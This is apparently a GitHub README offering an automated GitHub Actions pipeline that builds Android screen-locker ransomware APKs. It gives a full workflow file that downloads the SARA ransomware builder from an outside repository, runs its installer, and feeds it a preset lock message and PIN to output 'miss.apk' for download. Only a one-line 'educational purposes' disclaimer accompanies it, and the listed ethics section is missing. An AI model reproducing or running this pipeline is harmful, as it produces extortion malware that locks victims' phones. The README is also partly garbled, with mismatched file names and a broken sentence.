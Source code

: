 # GitHub-Actions-Ransomware-APK

This repository provides an automated solution for creating Ransomware APKs using GitHub Actions. This setup leverages the power of CI/CD to build and deploy APK files for educational and research purposes. 

> **Warning:** This project is intended for educational purposes only. Misuse of ransomware can lead to legal consequences.

## Table of Contents
- Prerequisites
- Repository Structure
- Setting Up GitHub Actions
- Workflow Configuration
- Downloading the APK
- Testing APKs Online
- Ethical Considerations
- License

## Prerequisites
- An Android project hosted on GitHub.
- Basic knowledge of Git and GitHub.
- Familiarity with Android development and APK creation.

## Repository Structure
Ensure your repository has the following structure:

    .github/workflows/main.yml


## Setting Up GitHub Actions
1. **Create the necessary directories**:
   - In the root of your repository, create a directory named `.github`.
   - Inside `.github`, create another directory named `workflows`.

2. **Create the workflow file**:
   - Inside the `workflows` directory, create a file named `main.yml`.

## Workflow Configuration
Edit the `build.yml` file with the following configuration:

```yaml
name: Run SARA Installation and Customize Screen Ransomware

on:
  push:
    branches:
      - main
  pull_request:
    branches:
      - main

jobs:
  install-sara:
    runs-on: ubuntu-latest

    steps:
    - name: Checkout code
      uses: actions/checkout@v2

    - name: Install dependencies and run SARA with custom config
      run: |
        # Clone the SARA repository
        git clone https://github.com/termuxhackers-id/SARA
        cd SARA
        # Install dependencies
        sudo bash install.sh
        # Automatically select option 3 and fill in custom configuration
        echo -e "3\nmiss\nswati\nhellow word\n/codespess/icon.png\n12345678\n2" | python3 sara.py || true
        
        # Check if miss.apk was created
        if [ ! -f miss.apk ]; then
          echo "Error: miss.apk was not created."
          exit 1
        fi
        echo "APK created successfully."

    - name: List files for debugging
      run: |
        echo "Current directory contents:"
        ls -la ./SARA  # Adjust if necessary to show the correct directory

    - name: Upload APK as artifact
      if: success()  # Only upload if previous steps succeeded
      uses: actions/upload-artifact@v3
      with:
        name: miss.apk
        path: ./SARA/miss.apk  # Ensure this is the correct path to the APK
        retention-days: 1  # Keep the artifact for 1 day
      continue-on-error: true  # Ignore the upload error if it occurs

    - name: Clean up old artifacts (optional)
      run: |
        echo "This step can be used to clean up old artifacts if needed."
  ```

# Downloading the APK

After pushing changes to your repository:

  Navigate to the Actions tab in GitHub.
  Select the latest workflow run.
  In the Artifacts section, you’ll find the uploaded APK. Click to download it.


## Testing APKs Online
To avoid testing APKs directly on your phone, you can use online testing platforms. Once you've , you can upload it to services like [Uptoplay](https://www.uptoplay.net/media/system/ext/intro-androidemulator.php) for testing your APK files online.









